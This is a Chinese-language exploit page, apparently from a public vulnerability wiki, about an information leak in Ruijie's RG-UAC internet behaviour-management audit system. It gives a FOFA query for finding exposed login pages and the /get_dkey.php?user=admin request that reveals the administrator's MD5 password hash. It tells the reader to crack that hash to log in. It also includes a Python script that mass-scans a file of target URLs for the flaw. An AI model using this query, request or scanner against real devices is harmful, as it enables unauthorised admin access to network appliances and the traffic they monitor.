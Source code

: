 <languages />

FOFA
----

     title="RG-UAC登录页面" && body="admin"

F12查看網頁源碼搜索關鍵字`admin`

或在URL后拼接/get_dkey.php?user=admin

![](Cnvd1.jpg "Cnvd1.jpg")

使用 password值 md5解密即可登錄。(用戶名admin)

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mFile         >>> ip.txt                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

    def Scan(file_name):
        with open(file_name, "r", encoding='utf8') as scan_url:
            for url in scan_url:
                if url[:4] != "http":
                    url = "http://" + url
                url = url.strip('\n')
                try:
                    POC_1(url)

                except Exception as e:
                    print("\033[31m[x] 请求报错 \033[0m".format(e))
                    continue

    if __name__ == '__main__':
        title()
        file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
        Scan(file_name)

參考
----

<https://mp.weixin.qq.com/s/LbSPzt__mKdNN83RhJ2bwA>